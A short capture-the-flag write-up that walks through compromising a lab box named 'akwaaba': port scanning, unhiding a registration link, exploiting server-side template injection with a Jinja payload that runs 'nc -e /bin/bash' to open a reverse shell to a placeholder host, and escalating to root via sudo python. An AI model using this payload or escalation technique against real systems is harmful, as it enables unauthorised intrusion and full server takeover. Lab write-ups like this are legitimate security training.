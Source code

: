 ![](./images/akwaba.png)

scanning akwaaba, we find 2 ports open

```
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/troylynx/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.0.11.0:80
Open 10.0.11.0:10800
[~] Starting Script(s)
[~] Starting Nmap 7.94
```

visiting port 80 we get
![](./images/port80.png)

visiting the next port(10800) we get

![](./images/10800.png)

tried loggin using default creds, but didnt work out 
but viewing the source code, you see a register link which is hidden 

![](./images/register.png)

lets make it visibel by removing the hidden value and create and account and login to the system

![](./images/page.png)

logging in to the page we realise we can create pages, my team and i treid a lot of stuff and latter landed on `SSTI`

> {{ self.__init__.__globals__.__builtins__.__import__('os').popen('nc -e /bin/bash <IP> <PORT>').read() }}

and we got a shell

![](./images/firstShell.png)

to privesc we used sudo -l and found the user could exec `python` with `sudo`

![](./images/privescSudo.png)

[gtfobins](https://gtfobins.github.io/gtfobins/python/#sudo) has the solution just change `python` to `python3`

and we are root

![](./images/root.png)

## you are Welcome (akwaaba)